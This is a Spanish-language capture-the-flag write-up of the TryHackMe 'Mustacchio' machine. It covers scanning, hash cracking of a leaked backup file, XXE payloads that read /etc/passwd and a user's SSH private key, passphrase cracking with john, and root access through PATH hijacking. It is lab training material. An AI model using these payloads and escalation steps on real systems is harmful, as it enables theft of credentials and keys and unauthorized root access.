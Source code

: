 ```yaml
---
title: "Mustacchio Writeup - Try-Hack-Me"
date: 2023-09-16
categories: [Writeups, Try-Hack-Me]
tags: [Linux, Easy]
image: 
  path: assets/img/imagenes/Mustacchio.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: "Mustacchio banner"
---
```

<style>
  h3 {
    color: #00FF00; /* Puedes cambiar "blue" por cualquier color que desees */
  }
</style>
### nmap 

```python
Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-12-11 20:34 EST
Nmap scan report for 10.10.163.196
Host is up (0.23s latency).
Not shown: 65532 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 58:1b:0c:0f:fa:cf:05:be:4c:c0:7a:f1:f1:88:61:1c (RSA)
|   256 3c:fc:e8:a3:7e:03:9a:30:2c:77:e0:0a:1c:e4:52:e6 (ECDSA)
|_  256 9d:59:c6:c7:79:c5:54:c4:1d:aa:e4:d1:84:71:01:92 (ED25519)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Mustacchio | Home
8765/tcp open  http    nginx 1.10.3 (Ubuntu)
|_http-title: Mustacchio | Login
|_http-server-header: nginx/1.10.3 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 152.04 seconds
```
tenemos un archivo robots.txt
### Ports: 22/ssh - 80/http - 8765/http 

### Enumeracion del puerto 80
![img](/assets/img/imagenes/Pasted image 20231211214708.png)

### parece que no hay mucha cosa interesante veamos el archivo robots.txt
![img](/assets/img/imagenes/Pasted image 20231211215451.png)
parece que el archivo esta vacio

###  gobuster
![img](/assets/img/imagenes/Pasted image 20231211215631.png)
gobuster nos certifica que existe el archivo robots.txt aparte de esto de todos los subdirectorios el mas llamativo es custom

### subdirectorio custom/js
![img](/assets/img/imagenes/Pasted image 20231211215353.png)

### el archivo users.bak lo podemos descargar 
![img](/assets/img/imagenes/Pasted image 20231211220112.png)
parece que tenemos un usuario admin con un hash asi que vamos a decodearlo

### usamos hashid para identificar el hash
![img](/assets/img/imagenes/Pasted image 20231211220355.png)
buscamos un decoder de hash SHA-1

### tenemos un usuario y ahora una pass
![img](/assets/img/imagenes/Pasted image 20231211220902.png)

### iniciamos session cn el panel de login
![img](/assets/img/imagenes/Pasted image 20231211222507.png)

### parece que el panel de comandos no es vulnerable a reverse shell ni inyeccion sql
### miramos el codigo fuente
![img](/assets/img/imagenes/Pasted image 20231211222616.png)

### parece que aqui nos dejan una pista asi que vamos a mirar este subdirectorio
### se nos descarga un archivo automaticamente y lo abrimos con strings 
parece que tenemos un archivo xml
![img](/assets/img/imagenes/Pasted image 20231211222919.png)

### xml inyection 
usaremos esta xml inyeccion para intentar mirar el etc/passwd

```python
<?xml version="1.0" encoding="UTF-8"?> 
<!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd'>]> 
<comment> 
<name>Joe Hamd</name> 
<author>Barry Clad</author> 
<com>&test; </com> 
</comment>
```

![img](/assets/img/imagenes/Pasted image 20231212001031.png)
### perfecto tenemos respuesta. vemos que existe un usuario llamado barry. vamos a intentar consegui su id_rsa modificando la ruta en el xml

```python
<?xml version="1.0" encoding="UTF-8"?> 
<!DOCTYPE root [<!ENTITY test SYSTEM 'file:///home/barry/.ssh/id_rsa'>]> 
<comment> 
<name>Joe Hamd</name> 
<author>Barry Clad</author> 
<com>&test; </com> 
</comment>
```

### tenemos la id_rsa de barry
![img](/assets/img/imagenes/Pasted image 20231212001934.png)
para poder copiar la id_rsa de una mejor podemos hacer Ctrl + u para ver el codigo fuente
![img](/assets/img/imagenes/Pasted image 20231212002209.png)

### puerto 22/ssh
![[Pasted image 20231212002530.png]]

### intentamos conectarnos por ssh pero necesitamos otorgar permisos de lectura. esto lo hacemos con el comando chmod luego intentamos ingresar pero al parecer la id_rsa necesita una clave asi que vamos a conseguirla
![img](/assets/img/imagenes/Pasted image 20231212002803.png)

### con estos pasos podemos conseguir el hash de la id_rsa y lo enviamos a un archivo llamado id_hash como se ve en la imagen, hacemos un cat para asegurarnos que el archivo id_hash contenga el hash
### usaremos la herramienta john para decodear el hash
![img](/assets/img/imagenes/Pasted image 20231212003052.png)

### ahora tenemos la palabra clave que necesita la id_rsa asi que intentemos entrar por ssh de nuevo
### Port 22/ssh
![img](/assets/img/imagenes/Pasted image 20231212003433.png)
perfecto estamos dentro y somos el usuario barry

### Escalada de privilegios
navegando por la maquina nos hemos encontrado otro usuario el cual tiene un archivo muy interesante, si hacemos cat no podemos ver nada pero si hacemos strings.....
![img](/assets/img/imagenes/Pasted image 20231212003910.png)

### miramos los permisos del archivo
el archivo parece pertenecer al usuario root pero (otros) tienen permisos de ejecución 
![img](/assets/img/imagenes/Pasted image 20231212004140.png)

### vamos a aprovecharnos de la variable tail para poder escalar privilegios
primero vamos al directorio /tmp vamos a crear un nuevo archivo que se llame tail y vamos a cambiar los permisos de la bash con el siguiente comando
![img](/assets/img/imagenes/Pasted image 20231212010043.png)
guardamos el archivo

### $PATH hijacking

```python
export PATH=/tmp:$PATH
```
agregamos la ruta en la que se encuentra nuestro archivo para que el $PATH la tome en cuenta cuando haga un llamado
![img](/assets/img/imagenes/Pasted image 20231212010450.png)

### luego hacemos echo $PATH para verificar y si todo esta bien hemos cambiado los permisos a la bash. asi que si hacemos bash -p deberiamos tener una bash como el usuario root
![img](/assets/img/imagenes/Pasted image 20231212011005.png)

### WE ARE ROOT